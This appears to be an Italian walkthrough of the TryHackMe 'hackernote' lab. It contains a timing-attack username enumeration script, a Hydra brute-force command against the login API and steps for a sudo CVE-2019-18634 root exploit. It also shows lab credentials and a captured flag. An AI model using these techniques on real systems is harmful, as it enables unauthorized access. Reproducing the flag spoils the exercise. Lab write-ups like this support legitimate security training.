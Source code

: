 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/hackernote

==Exploit==

Ora che sappiamo che esiste un attacco temporale, possiamo scrivere uno script Python per sfruttarlo.

Il primo passo è capire come funzionano le richieste di login. Puoi usare Burpsuite per questo, ma io preferisco usare gli strumenti di sviluppo di Firefox perché non devo configurare alcun proxy.

Qui possiamo vedere che il login è una richiesta POST a /api/user/login. Ciò significa che possiamo effettuare questa richiesta usando CURL, python o un altro linguaggio di programmazione a tua scelta.

In Python, possiamo usare questo codice e la libreria Requests per inviare questa richiesta come segue:

```
creds = {"username":username,"password":"invalidPassword!"}
response = r.post(URL,json=creds)
```

La fase successiva è la tempistica. Utilizzando la libreria standard "time", possiamo calcolare la differenza di tempo tra quando inviamo la richiesta e quando riceviamo una risposta. Ho spostato la richiesta di login nella sua funzione chiamata doLogin.

```
startTime = time.time()
doLogin(user)
endTime = time.time()
```

```
def login(username, password):
    if username in users: ##If it's a valid username
        login_status = check_password(password) ##This takes a noticeable amount of time
        if login_status:
            return new_session_token()
        else:
            return "Username or password incorrect"
    else:
        return "Username or password incorrect"
```
Il passo successivo è ripetere questa operazione per tutti i nomi utente nell'elenco dei nomi utente. Questo può essere fatto con una serie di cicli for. Il primo leggerà i nomi utente da un file in un elenco e il secondo testerà ciascuno di questi nomi utente e vedrà il tempo impiegato per rispondere. Per il mio exploit, ho deciso che i tempi entro il 10% del tempo più grande erano probabilmente nomi utente validi.  
  
```
#!/usr/bin/env python3
import sys
import requests
import time

def main():
    host = '10.10.156.130'

    with open(sys.argv[1]) as f:
        usernames = f.readlines()
    usernames = [x.strip() for x in usernames] 

    for username in usernames:
        start = time.time()
        creds = {"username":username,"password":"notimportant"}
        r = requests.post("http://{}/api/user/login".format(host), data=creds)
        done = time.time()
        elapsed = done - start
        if elapsed > 1:
            print("[*] Valid user found: {}".format(username))

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print("Usage: {} /path/usernames/file.txt".format(sys.argv[0]))
        sys.exit(1) 
    main()
```

```
./bruteforce-user.py /data/src/SecLists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt
```
**Perché il tempo impiegato cambia?**

Il backend è scritto intenzionalmente male. Il server cercherà di verificare la password dell'utente solo se riceve un nome utente corretto. Di seguito è riportato lo pseudocodice per spiegarlo meglio.

Gli exploit pre-scritti in Golang e Python sono disponibili qui:  [https://github.com/NinjaJc01/hackerNoteExploits](https://github.com/NinjaJc01/hackerNoteExploits)[](https://github.com/NinjaJc01/hackerNoteExploits)

Usa Honeypot capture o Names/names.txt da  [https://github.com/danielmiessler/SecLists/tree/master/Usernames](https://github.com/danielmiessler/SecLists/tree/master/Usernames) . Più breve è l'elenco, più velocemente l'exploit verrà completato. (Suggerimento: uno di quegli elenchi di parole è più breve.)

**NOTA:** l'exploit Golang non è affidabile ma è più veloce. Se ottieni nomi utente non validi, prova a rieseguirlo dopo un minuto o a passare all'exploit Python.

```
nome utente: james
```

==Attack Passwords==
**Passo successivo**

Ora che abbiamo un nome utente, ci serve una password. Poiché le password sono hash con bcrypt e richiedono un tempo notevole per essere verificate, il brute force con una lunga wordlist come rockyou non è fattibile.  
Fortunatamente, questa webapp ha suggerimenti per le password!

Con il nome utente che abbiamo trovato nell'ultimo passaggio, possiamo recuperare il suggerimento per la password. Da questo suggerimento per la password, possiamo creare una wordlist e (in modo più) efficiente forzare la password dell'utente.

**Crea la tua lista di parole**

Il suggerimento per la password è "il mio colore preferito e il mio numero preferito", quindi possiamo ottenere un elenco di parole di colori e un elenco di parole di cifre e combinarli usando Hashcat Util's Combinator che ci darà ogni combinazione dei due elenchi di parole. Utilizzando questo elenco di parole, possiamo quindi usare Hydra per attaccare il percorso dell'API di accesso e trovare la password per l'utente. Scarica i file dell'elenco di parole allegati, guardali e poi combinali usando il combinatore di hashcat-util.  
Hashcat utils può essere scaricato da:  [https://github.com/hashcat/hashcat-utils/releases](https://github.com/hashcat/hashcat-utils/releases)[](https://github.com/hashcat/hashcat-utils/releases)  
Aggiungili al tuo PATH o eseguili dalla cartella.  
Vogliamo usare il binario Combinator.bin, con colors.txt e numbers.txt come input. Il comando per questo è (supponendo che tu sia nella directory con i binari e che tu abbia copiato i file txt in quella directory):

```
./combinator.bin colors.txt numbers.txt > wordlist.txt
```

Questo ti fornirà un elenco di parole da usare per Hydra .  
  

**Attaccare l' API**

La richiesta HTTP POST che abbiamo catturato in precedenza ci dice abbastanza sull'API da poter usare Hydra per attaccarla.  
L'API è in realtà progettata per accettare dati Form o dati JSON. Il frontend invia dati JSON come richiesta POST, quindi useremo questo. Hydra consente di attaccare richieste HTTP POST, con il modulo HTTP -POST. Per usarlo, abbiamo bisogno di:

- Request Body - JSON
    
    {"username":"admin","password":"admin"}
    
- Request Path -
    
    /api/user/login
    
- Error message for incorrect logins -
    
    "Invalid Username Or Password"

Il comando per farlo è (sostituisci le parti con parentesi angolari, dovrai usare l'escape dei caratteri speciali):

```
hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>
```

```
hydra -l james -P wordlist.txt 10.10.156.130 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
```

```
user password: blue7
```
 login sul sito e otteniamo password SSH
```
 james: dak4ddb37b
```

```
$ ssh james@10.10.156.130
james@10.10.156.130's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun 17 09:55:51 UTC 2020

  System load:  0.01              Processes:           86
  Usage of /:   49.2% of 9.78GB   Users logged in:     0
  Memory usage: 8%                IP address for eth0: 10.10.156.130
  Swap usage:   0%


59 packages can be updated.
0 updates are security updates.


Last login: Mon Feb 10 11:58:27 2020 from 10.0.2.2
james@hackernote:~$ ls -l
total 4
-rw------- 1 james james 38 Feb  8 22:30 user.txt
james@hackernote:~$ cat user.txt 
thm{56911bd7ba1371a3221478aa5c094d68}
```
==Escalate==

Puoi trovare diversi exploit su Internet. Prendiamo questo
https://github.com/saleemrashid/sudo-cve-2019-18634

```
$ git clone https://github.com/saleemrashid/sudo-cve-2019-18634.git
$ cd sudo-cve-2019-18634/
$ make
$ scp exploit james@10.10.211.209:
```
Scaricare l'exploit binario sul target
Eseguiamo l'exploit.
```
james@hackernote:~$ ./exploit 
[sudo] password for james: 
Sorry, try again.
 whoami
root
```

```
ls -l /root
total 4
-rw------- 1 root root 38 Feb  8 22:31 root.txt
cat /root/root.txt
thm{xxxxxxxxxxxxxxxxxxxxxx}
```






